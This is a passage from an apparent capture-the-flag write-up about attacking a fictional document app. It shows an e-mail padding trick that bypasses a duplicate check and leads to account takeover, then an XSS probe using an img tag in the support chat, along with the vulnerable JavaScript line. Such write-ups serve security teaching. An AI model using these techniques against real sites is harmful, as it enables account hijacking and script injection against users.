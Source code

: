 ```
POST /register HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 176

name=manoelt&email=jobert%40mydocz.cosmic{{}}&username=manoelt&password=secretpassword&password-confirmation=secretpassword&_csrf_token=b793ddd4377d1a7b12cd8c4260d6a35e3586f522
```

After this request we receive a nice QRCode with `jobert@mydocz.cosmic` in the e-mail address part and doing the recover process it led us to an Account Takeover. 

![Jobert](images/jobert_profie.png)

We are now Jobert!

We can infer that the application works something like this:
* Regex to verify if e-mail is valid
* Query database to check for duplicates
* Remove bad chars, like `{{}}` and `<>`
* INSERT into database

## XSS

After logging as Jobert, the differences in the application is that we now have access to the support feature, which looks like a chat, "No documents" in documents and converter disabled. Here, a tip: If you have ever played a CTF, you already know that when you face a chat or support, the first thing to do is to try XSS/HTML. So, sending just `<img src="our_server">` the application sends a GET request (XHR):

```
GET /support/chat?message=%3Cimg%20src=%22our_server%22%3E HTTP/1.1
```
which returns a json and a new Set-Cookie header with more chars in the cookie. At the same time the browser (JS) inserts the HTML (here an image) and the GET response into the DOM:

![Support](images/support_msg.png)

We can easily identify the vulnerability here as `support.min.js` is doing:
```javascript
$("#chat-div").append(decodeURIComponent('<h3><span class="badge badge-primary">'+t+"</span></h3>"))
```
where `t` is our message.

Fine! But after all only us (our browser) requested the image URL. Isn't there any support to read our message? We should read the page source code:

```html
<form action="/support/feedback" method="POST">
  <div id="review-modal-body" class="modal-body mt-3">
    <p>Please let us know if our support agent was helpful.</p>
    <span id="star-1" data-rating=1 class="fa fa-star review-star"></span>
    <span id="star-2" data-rating=2 class="fa fa-star review-star"></span>
    <span id="star-3" data-rating=3 class="fa fa-star review-star"></span>
    <span id="star-4" data-rating=4 class="fa fa-star review-star"></span>
    <span id="star-5" data-rating=5 class="fa fa-star review-star"></span>
  </div>
  <p id="report-message" class="text-muted mb-4"></p>
  <div class="modal-footer">
    <input id="rating-input" type="hidden" name="rating" value="3">
    <input type="hidden" name="_csrf_token" value="af1e63b23152ae96de29b7805c3a9908d7a66390">
    <button type="button" class="btn btn-outline-secondary" data-dismiss="modal">Ignore</button>
    <button id="review-button" type="submit" class="btn btn-outline-primary" disabled>Submit</button>
  </div>
</form>
```
